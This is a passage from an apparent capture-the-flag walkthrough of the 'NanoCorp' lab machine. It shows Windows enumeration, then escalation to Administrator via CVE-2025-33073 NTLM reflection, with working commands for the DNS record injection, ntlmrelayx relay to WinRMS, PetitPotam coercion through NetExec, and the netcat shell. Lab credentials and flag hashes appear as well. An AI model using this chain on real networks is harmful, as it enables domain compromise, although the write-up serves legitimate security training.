b7c6a7d9646af04e1a60584645fa67e9
```

## Enumeration

We started with our usual `Enumeration` but it didn't seemed very promising at first glance.

```shell
PS C:\Users\monitoring_svc\Documents> whoami /all

USER INFORMATION
----------------

User Name               SID                                          
======================= =============================================
nanocorp\monitoring_svc S-1-5-21-2261381271-1331810270-697239744-3101


GROUP INFORMATION
-----------------

Group Name                                 Type             SID                                          Attributes                                        
========================================== ================ ============================================ ==================================================
Everyone                                   Well-known group S-1-1-0                                      Mandatory group, Enabled by default, Enabled group
BUILTIN\Remote Management Users            Alias            S-1-5-32-580                                 Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                              Alias            S-1-5-32-545                                 Mandatory group, Enabled by default, Enabled group
BUILTIN\Pre-Windows 2000 Compatible Access Alias            S-1-5-32-554                                 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NETWORK                       Well-known group S-1-5-2                                      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users           Well-known group S-1-5-11                                     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization             Well-known group S-1-5-15                                     Mandatory group, Enabled by default, Enabled group
NANOCORP\Protected Users                   Group            S-1-5-21-2261381271-1331810270-697239744-525 Mandatory group, Enabled by default, Enabled group
Authentication authority asserted identity Well-known group S-1-18-1                                     Mandatory group, Enabled by default, Enabled group
Mandatory Label\Medium Mandatory Level     Label            S-1-16-8192                                                                                    


PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State  
============================= ============================== =======
SeMachineAccountPrivilege     Add workstations to domain     Enabled
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Enabled


USER CLAIMS INFORMATION
-----------------------

User claims unknown.

Kerberos support for Dynamic Access Control on this device has been disabled.
```

```shell
PS C:\> dir


    Directory: C:\


Mode                 LastWriteTime         Length Name                                                                  
----                 -------------         ------ ----                                                                  
d-----         11/3/2025   4:13 PM                inetpub                                                               
d-----          5/8/2021   1:20 AM                PerfLogs                                                              
d-r---          4/2/2025   6:35 PM                Program Files                                                         
d-----          4/5/2025   4:17 PM                Program Files (x86)                                                   
d-r---          4/9/2025   6:19 PM                Users                                                                 
d-----         11/3/2025   4:18 PM                Windows                                                               
d-----          4/5/2025  10:59 AM                xampp
```

## Privilege Escalation to SYSTEM

### CVE-2025-33073: NTLM Reflection

After searching for a while and tinkering with various option we simply decided to give `CVE-2025-33073` a shot which us basically `NTLM Reflection` through `Coercing`.

- [https://www.synacktiv.com/en/publications/ntlm-reflection-is-dead-long-live-ntlm-reflection-an-in-depth-analysis-of-cve-2025](https://www.synacktiv.com/en/publications/ntlm-reflection-is-dead-long-live-ntlm-reflection-an-in-depth-analysis-of-cve-2025)

To fire this up a prerequisite was to `add` a `DNS Entry` pointing to our local machine to the `Domain Name Server (DNS)` of the `Domain Controller`.

```shell
┌──(kali㉿kali)-[~/opt/10_post_exploitation/krbrelayx]
└─$ python3 dnstool.py -u 'nanocorp.htb\web_svc' -p 'dksehdgh712!@#' -dc-ip 10.129.62.132 -dns-up 10.129.62.132 -a 'add' -d 10.10.16.97 -r 'localhost1UWhRCAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAYBAAAA'                                       
[-] Connecting to host...
[-] Binding to host
[+] Bind OK
[-] Adding new record
[+] LDAP operation completed successfully
```

Then we fired up `ntlmrelayx` in the latest version of `Impacket`. This was important because otherwise it would not support `WinRMS`.

```shell
┌──(venv)─(kali㉿kali)-[~/opt/10_post_exploitation/impacket/examples]
└─$ python3 ntlmrelayx.py -smb2support -t winrms://10.129.62.132 -i
Impacket v0.13.0.dev0+20251002.113829.eaf2e556 - Copyright Fortra, LLC and its affiliated companies 

[*] Protocol Client SMB loaded..
[*] Protocol Client RPC loaded..
[*] Protocol Client DCSYNC loaded..
[*] Protocol Client MSSQL loaded..
[*] Protocol Client IMAPS loaded..
[*] Protocol Client IMAP loaded..
[*] Protocol Client LDAP loaded..
[*] Protocol Client LDAPS loaded..
[*] Protocol Client WINRMS loaded..
[*] Protocol Client HTTPS loaded..
[*] Protocol Client HTTP loaded..
[*] Protocol Client SMTP loaded..
[*] Running in relay mode to single host
[*] Setting up SMB Server on port 445
[*] Setting up HTTP Server on port 80
[*] Setting up WCF Server on port 9389
[*] Setting up RAW Server on port 6666
[*] Setting up WinRM (HTTP) Server on port 5985
[*] Setting up WinRMS (HTTPS) Server on port 5986
[*] Setting up RPC Server on port 135
[*] Multirelay disabled

[*] Servers started, waiting for connections
```

As last step we triggered it using the `PetitPotam` through the `coerce_plus` `Module` of `NetExec`.

```shell
┌──(kali㉿kali)-[/media/…/HTB/Machines/NanoCorp/files]
└─$ netexec smb nanocorp.htb -u 'web_svc' -p 'dksehdgh712!@#' -M coerce_plus -o METHOD=PetitPotam LISTENER=localhost1UWhRCAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAYBAAAA
SMB         10.129.62.132   445    DC01             [*] Windows Server 2022 Build 20348 x64 (name:DC01) (domain:nanocorp.htb) (signing:True) (SMBv1:False) 
SMB         10.129.62.132   445    DC01             [+] nanocorp.htb\web_svc:dksehdgh712!@# 
COERCE_PLUS 10.129.62.132   445    DC01             VULNERABLE, PetitPotam
COERCE_PLUS 10.129.62.132   445    DC01             Exploit Success, lsarpc\EfsRpcAddUsersToFile
```

And after the `exploitation` was performed `successfully` we used `NetCat` to connect to port `11000` on `localhost` to get a shell as `Administrator`.

```shell
[*] (SMB): Received connection from 10.129.62.132, attacking target winrms://10.129.62.132
[!] The client requested signing, relaying to WinRMS might not work!
[*] HTTP server returned error code 500, this is expected, treating as a successful login
[*] (SMB): Authenticating connection from /@10.129.62.132 against winrms://10.129.62.132 SUCCEED [1]
[*] winrms:///@10.129.62.132 [1] -> Started interactive WinRMS shell via TCP on 127.0.0.1:11000
[*] All targets processed!
[*] (SMB): Connection from 10.129.62.132 controlled, but there are no more targets left!
```

```shell
┌──(kali㉿kali)-[~/opt/10_post_exploitation/impacket/examples]
└─$ nc 127.0.0.1 11000 
Type help for list of commands

#
```

## root.txt

```shell
# type C:\Users\Administrator\Desktop\root.txt
5129d0a9ae7b7845825c2cd26d14ee7e
```
